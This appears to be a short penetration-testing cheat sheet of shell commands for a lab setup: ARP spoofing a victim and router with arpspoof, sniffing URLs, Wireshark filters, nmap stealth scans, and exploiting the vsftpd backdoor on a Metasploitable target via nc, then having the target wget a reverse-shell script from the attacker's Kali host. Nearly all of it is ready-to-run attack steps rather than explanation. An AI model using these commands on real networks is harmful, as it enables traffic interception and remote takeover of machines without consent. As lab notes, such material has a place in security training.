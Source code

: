 - dsniff tool contains arpspoof utility
```bash apt install dsniff```

- allow ip forwarding till next restart
```bash echo 1 > /proc/sys/net/ipv4/ip_forward```

- arpspoof to spoof both the router and the victim
```bash arpspoof -i eth0 -t <VICTIM_IP> <ROUTER_IP>```
```bash arpspoof -i eth0 -t <ROUTER_IP> <VICTIM_IP>```

- intercept urls from spoofed communication
```bash urlsnarf -i eth0```

- wireshark filter expressions
```wireshark
# WS Filter expression structure
[Protocol].[header/field] [operator: +,==,!=] [value]
```
```wireshark ip.src == 192.168.1.101```
```wireshark tcp contains login```
```wireshark ip.src == 192.168.1.101 | ip.dst == 192.168.1.101```

- tcpdump
```bash tcpdump -i <interface> port <port> -w <file.pcap>```

- nmap tcp synscan
```bash nmap -sS <ip or cidr>```
- nmap tcp finscan
```bash nmap -sF <ip or cidr>```
- nmap tcp xmasscan
```bash nmap -sX <ip or cidr>```

- connect to vulnerable metasploit service
```bash 
nc <Metasploitable IP address> 21
# When process opened
user Hacker:)
pass invalid
```

- on a different shell and you'll get full prompt
```bash nc <Metasploitable IP address> 6200```

- start python local server from which the metaspolitable server will able to wget the reverseShell.py file
```bash python3 -m http.server 8080```

- wget the file from metasploitable after connecting with nc
```bash wget <Kali IP>:8080/reverseShell.py```